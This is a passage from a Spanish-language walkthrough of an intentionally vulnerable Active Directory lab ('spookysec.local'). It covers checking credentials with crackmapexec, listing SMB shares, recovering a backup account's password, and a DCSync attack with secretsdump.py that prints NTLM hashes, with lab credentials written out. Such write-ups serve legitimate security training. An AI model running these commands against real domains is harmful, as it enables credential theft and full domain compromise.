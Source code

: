 ```
❯ crackmapexec smb 10.10.185.250 -u svc-admin -p management2005
SMB         10.10.185.250   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.185.250   445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005
```

La salida anterior nos dice que el usuario es válido en el dominio `spookysec.local` pero no tenemos capacidad de ejecutar comandos como ese usuario.

#### Enumeración de recursos

Como tenemos credenciales para el usuario svc-admin listamos recursos que se encuentren disponibles.

```
❯ smbclient -L //spookysec.local -U svc-admin%management2005

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

Dentro de la unidad compartida `backup` se encontrará un archivo llamado `backup_credentials.txt` codificado en base 64 el cual tendrá las credenciales para el usuario **backup**.  
Las demás comparticiones son irrelevantes y solo conduciran a una Rabbit Hole

Credenciales para el usuario `backup`

```
backup@spookysec.local:backup2517860
```
----

En la **tarea 7** de la room nos menciona lo siguiente: 

> Esta cuenta tiene un permiso único que permite sincronizar todos los cambios de Active Directory con esta cuenta de usuario.

Con esta información podemos aplicar un ataque DCSync

> DCSync implica tener permisos sobre el dominio en sí: **DS-Replication-Get-Changes** y **Replecating Directory Changes in Filtered Set**  
> De forma predeterminada solo los grupos de **administradores de dominio,  administradores de empresa, administradores y controladores de dominio** tienen los privilegios necesarios.

## Ataque DCSync

Para ejecutar el ataque de forma remota usearé **secretsdump.py** de impacket, esto listará todos los hashes NTLM de cuentas del directorio activo.

```
❯ secretsdump.py -just-dc backup:backup2517860@10.10.185.250                                               
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation                     
                                                                                                           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                              
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                       
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                             
```
